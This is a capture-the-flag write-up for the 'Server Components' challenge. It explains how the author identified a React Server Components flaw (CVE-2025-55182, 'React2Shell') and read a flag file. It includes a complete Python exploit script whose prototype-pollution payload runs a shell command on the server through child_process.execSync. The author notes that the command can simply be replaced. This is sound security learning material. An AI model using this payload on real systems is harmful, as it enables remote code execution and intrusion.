




# Server Components (CTF@CIT 2026)
---
**Description:**

I've patched the components on the application, we are secure now!

---
## Overview
The website doesn't have anything other than a static-content page with a CVE.

## Exploitation Flow

Inspecting the source code at `layout.js` and `page.js`, they have no function to interact with.

Peek at `Dockerfile`, the flag is hid at `/opt/flag.txt`. So how can a file can be read in a webapp without any function?

I look at the dependencies file `package.json`. Search on the Internet end find out a vulnerable one.





Send a GET request and confirm it is infamous `CVE-2025-55182` - `React2Shell`


I search for PoC on the Internet and catch this [https://www.resecurity.com/blog/article/react2shell-explained-cve-2025-55182-from-vulnerability-discovery-to-exploitation](https://www.resecurity.com/blog/article/react2shell-explained-cve-2025-55182-from-vulnerability-discovery-to-exploitation)

The post breaks down in details, explains and instructs how to craft payload. Following it and come up with this [script](assets/exploit.py) (Or just replace the command since the payload is already perfect =))))

```python
import requests,json
url = 'http://127.0.0.1:5555'
proxies = 'http://127.0.0.1:8080'
crafted_chunk = {
    "then":"$1:__proto__:then",
    "status":"resolved_model",
    "reason":-1,
    "value":"{\"then\":\"$B0\"}",
    "_response":{
    "_prefix":"var res=process.mainModule.require('child_process').execSync('cat /opt/flag.txt',{timeout:5000}).toString().trim();;throw Object.assign(new Error('NEXT_REDIRECT'),{digest:`${res}`});",
        "_chunks":"$Q2",
        "_formData":{
            "get":"$1:constructor:constructor"
        }
    }
}
files = {
    "0":(None,json.dumps(crafted_chunk)),
    "1":(None,'"$@0"'),
    "2":(None,'[]')
}
headers = {
    'Next-Action':'x'
}
response = requests.post(url=url,files=files,headers=headers,proxies=proxies)
print(response.text)
```

Run the script and get flag





> Flag: ***CIT{R3aCt_1s_Vu1n3r@bl3}***